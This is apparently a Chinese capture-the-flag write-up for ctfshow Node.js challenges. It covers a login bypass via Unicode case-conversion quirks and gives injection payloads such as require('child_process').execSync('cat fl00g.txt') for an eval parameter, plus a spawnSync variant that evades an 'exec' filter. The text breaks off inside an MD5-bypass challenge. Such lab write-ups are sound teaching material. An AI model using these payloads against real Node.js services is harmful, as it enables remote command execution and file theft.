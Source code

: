 要以账户ctfshow，密码123456登录
考察的地方是

```
toUpperCase()是javascript中将小写转换成大写的函数。
toLowerCase()是javascript中将大写转换成小写的函数
除此之外
在Character.toUpperCase()函数中，字符ı会转变为I，字符ſ会变为S。
在Character.toLowerCase()函数中，字符İ会转变为i，字符K会转变为k。
```

详细看：[Fuzz中的javascript大小写特性 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html)
那么输入ctfſhow 123456即可

## 335 rce

f12提示`<!-- /?eval= -->`

直接执行命令即可

chile_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令
用`child_process`模块的`exec`和`execSync`或者`spawn`与`spawnSync`

```js
/?eval=require('child_process').execSync('ls').toString()
/?eval=require('child_process').execSync('cat fl00g.txt').toString()
```

```js
require('child_process').spawnSync('ls',['./']).stdout.toString()
require('child_process').spawnSync('cat',['fl00g.txt']).stdout.toString()
```

还可以用这个：

```js
global.process.mainModule.constructor._load('child_process').execSync('ls',['.']).toString()
```



## 336 过滤rce

过滤了exec，只能用spawnSync啦

```js
require('child_process').spawnSync('ls',['./']).stdout.toString()
require('child_process').spawnSync('cat',['fl001g.txt']).stdout.toString()
```



## 337 md5绕过

> ```js
> var express = require('express');
> var router = express.Router();
> var crypto = require('crypto');
> 
> function md5(s) {
> return crypto.createHash('md5')
>  .update(s)
>  .digest('hex');
> }
> 
> /* GET home page. */
> router.get('/', function(req, res, next) {
> res.type('html');
> var flag='xxxxxxx';
> var a = req.query.a;